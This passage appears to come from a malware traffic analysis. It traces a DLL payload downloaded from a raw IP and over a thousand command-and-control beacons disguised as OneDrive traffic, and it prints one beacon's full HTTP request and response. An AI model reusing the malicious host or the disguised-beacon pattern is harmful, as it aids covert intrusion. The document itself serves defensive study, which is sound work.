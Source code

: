 The following interesting connection is at 23:58, which downloads the previously-mentioned YPbR from the raw IP [217.12.218.46](http://217.12.218.46/YPbR). This is [dedic-brucerwydra-754994.hosted-by-itldc.com](http://dedic-brucerwydra-754994.hosted-by-itldc.com/), which is an old domain, but last modified 20th March 2021. The .dll, which has the same timestamp as this connection, is 293kB; this conversation is 260kB. Like the Excel file, it's very similar.

Now we come to over 1000 conversations to [onedrive.live.com](http://onedrive.live.com) at 217.12.218.46:80. Although that IP is the same as we saw earlier, the ITLDC domain. Every so often there is a connection to [checkip.amazonaws.com](http://checkip.amazonaws.com), which returns the IP like before. The majority of these "Onedrive" connections look something like this:

```bash
GET /preload?manifest=wac HTTP/1.1
Host: onedrive.live.com
Accept: text/html,application/xml;*/*;
Accept-Encoding: gzip, deflate
Cookie: E=P:QkCqNIkK4YrSdbmQYMZ5vNHK58SDhdmj6A5RS5ZC7752h9zu253ze3G69pKfAYL70kZCggJZG5vQKV4urjkUOtpLGuIGxjJNaysqatvRaoyipCMYHkPCwNVy78VjLekZcTS-IggJIahCFqug9ecEa7Lgw-Efirt8NWH4eztNuUA=:PFzM9cj
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko
Connection: Keep-Alive
Cache-Control: no-cache

HTTP/1.1 200 OK
Date: Mon, 29 Mar 2021 23:11:25 GMT
Cache-Control: no-cache, no-store
Pragma: no-cache
Content-Type: text/html; charset=utf-8
Expires: -1
Vary: Accept-Encoding
Server: Microsoft-IIS/8.5
Set-Cookie: E=P:We/01nw8bIg=:oIbA04j2Itig4t8cWKNKrDaG/ZDZuMnyxXC+BkkNivU=:F; domain=.live.com; path=/
Content-Length: 2209

 <html xmlns="http://www.w3.org/1999/xhtml"><head><title>Preload</title><script type="text/javascript">var $Config={"BSI":{"enabled":1,"xid":"b006d80d-6673-4a54-92d1-8d13cdc93b14","pn":"ResourcesPreload.default.F.A","rid":"007ebd45c9f","biciPrevious":"b006d80d-6673-4a54-92d1-8d13cdc93b14_007ebd45c9f_15347","BICI":{"fid":"ebd4","urlHash":"vazo6","beaconUrl":"//c.live.com/c.gif?DI=15347&wlxid=b006d80d-6673-4a54-92d1-8d13cdc93b14&reqid=007ebd45c9f","enableLD":1,"enableGlinkExtra":1,"enableGlinkCall":1,"suppressBrowserRightClickMenu":1},"SBSPLT":{"rt":"636191157915732690"},"CSIPerf":{"enabled":1,"page":{"landingPageName":"","timeStamp":""},"IDSS":{"enabled":1},"WLXFD":{"enabled":1},"Trace":{"enabled":1}},"Scenario":{"handlerPath":"/Handlers/ScenarioQos.mvc","enabled":1},"Watson":{"fbody":1,"enabled":1,"sr":100}},"build":"17.502.2414","mkt":"en-US","mmn":"BN1301xxPFE021","di":15347,"prop":"SDX.Skydrive","sd":".live.com","hn":"onedrive.live.com","isSecure":1,"Preload":{"Resources":["https://spoprod-a.akamaihd.net/files/onedrive-website-release-prod_master_20160928.003/jquery-1.7.2-39eeb07e.js","https://spoprod-a.akamaihd.net/files/onedrive-website-release-prod_master_20160928.003/wac0-c2bada28.js","https://spoprod-a.akamaihd.net/files/onedrive-website-release-prod_master_20160928.003/wac1-94024fff.js","https://spoprod-a.akamaihd.net/files/onedrive-website-release-prod_master_20160928.003/wac2-01ac784f.js","https://spoprod-a.akamaihd.net/files/onedrive-website-release-prod_master_20160928.003/wac_s_test-aec201a8.js","https://spoprod-a.akamaihd.net/files"u002ffiles/onedrive-website-release-prod_master_20160928.003/wac_s_unknownscenario-258417ad.js","https://s1-word-view-15.cdn.office.net:443/wv/s/1677265950_resources/1033/progress16.gif","https://s1-word-view-15.cdn.office.net:443/wv/s/1677265950_App_Scripts/1033/WordViewerIntl.js","https://s1-word-view-15.cdn.office.net:443/wv/s/1677265950_resources/1033/WordViewer.css","https://s1-word-view-15.cdn.office.net:443/wv/s/1677265950_resources/1033/wv.png","https://s1-word-view-15.cdn.office.net:443/wv/s/1677265950_App_Scripts/WordViewer.js","https://s1-officeapps-15.cdn.office.net:443/wv/s/1677265950_App_Scripts/1033/CommonIntl.js"
```
